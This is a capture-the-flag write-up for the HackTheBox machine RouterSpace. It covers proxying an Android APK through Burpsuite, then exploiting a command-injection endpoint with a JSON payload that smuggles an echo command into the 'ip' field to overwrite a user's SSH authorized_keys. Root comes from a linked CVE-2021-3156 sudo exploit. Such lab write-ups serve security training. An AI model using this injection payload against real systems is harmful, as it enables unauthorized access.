






An easy box or so they say. The setup definitely wasn't as easy though.

<!--more-->

## HackTheBox - RouterSpace

**Box**: RouterSpace\
**IP address**: 10.10.11.148 \
**Local**: 6a323bd64e59744██████████████████ \
**Proof**: 7718b24cbcbffe93██████████████████

### Local

#### Enumeration

As per any new boxes, I started off with the usual recon scripts.

Unfortunately, nothing in particular stood out and I moved on to explore :80 which was serving a web application. Interestingly, there is an APK available for us download.



Interest piqued, I tried to do some basic static analysis with the following tools:

- `unzip`: since an APK is simply an archive of multiple folders and files
- `jadx-gui`: a decompiler that produces Java source code from APK files

```bash
unzip spacerouter.apk
jadx-gui spacerouter.apk
```

Still nothing.

This leaves me with the only option: run the APK in an emulator and intercept its requests via Burpsuite.

#### Setting up Environment

This is a tedious task, especially if the machine you are working on lacks the necessary tools. I have had written a short [blog post](../2021-12-06/burpsuite-for-android) on the hows of setting up, but here's a quick overview of what's needed:

1. Install Android Studios from the official website

2. Create a virtual device of the following specification:

   **Name**: `Rooted`\
   **Specification**: Nexus 5 API 23, Android 6.0, x86\
   **Purpose**: An emulator without Google Play, a rooted environment

3. Configure Burpsuite proxy settings

   At Burpsuite, under `Proxy > Options > Proxy Listener > Add > Binding`, add the following:

   **Bind to port:** 8082\
   **Bind to address:** All interfaces

   At Brupsuite, under `Proxy > Options > Proxy Listener > Export CA certificate`

   **Select** `Certificate in DER format`\
   **Export file** as `Burpsuite.CER`

4. Configure Android Emulator proxy settings

   Navigate to `Settings > Proxy > Manual Proxy Configuration` and input the following:

   **Hostname:** 127.0.0.1\
   **Port number:** 8082

   Drag and drop `Brupsuite.CER` into emulator and install it under `Settings > Credentials Storage > Install from SD Card`

   **Certificate name:** Burpsuite\
   **Certificate use:** VPN and Apps

At this point, check if Burpsuite can capture traffic from the emulator's browser. If yes, the configuration is done correctly and you can proceed to drag and drop the `routerspace.apk` into the emulator.

If not, these might be some of the errors you are facing and solutions that may work for you:

> "routerspace.htb: Unable to connect to server!"

```bash
adb root
adb remount
abd pull /system/etc/hosts
echo "10.10.11.148 routerspace.htb" >> hosts
adb push hosts /system/etc/hosts
```

> "adb: error: failed to copy 'host' to '/system/etc/hosts': remote Read-only file system"

```bash
adb root
adb disable-verity
adb reboot
adb root
adb remount
adb push hosts /system/etc/hosts
```

#### Attack Vector

Now that we have Burpsuite intercepting requests, we can see request made to `/api/v4/monitoring/router/check/deviceAccess`.

A few moments of experimentation shows that the endpoint is vulnerable to command injection with `authorized_keys` file available for tampering.



Now, we just have to generate a new SSH key and overwrite the `authorized_keys` file with our newly generated public key.

```bash
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub
```

This is the payload I used:

```json
{ "ip": "0.0.0.0&echo 'SSH_PUBLIC_KEY_HERE' > ../../../../home/paul/.ssh/authorized_keys" }
```



With that, I can now SSH into `Paul` -- user shell obtained!



### Proof

#### Enumeration

Local privilege escalation is rather straightforward for this box.

With no evidence of obvious misconfigurations, I decided to take a look at the possible CVEs suggested by `Linpeas` and went down the list to check which of these are the keys of the metaphorical building.



As it turns out, `CVE-2021-3156` was the answer and I chose to use this [script](https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py) by `worawit`.

Yep, look at that -- a root shell!


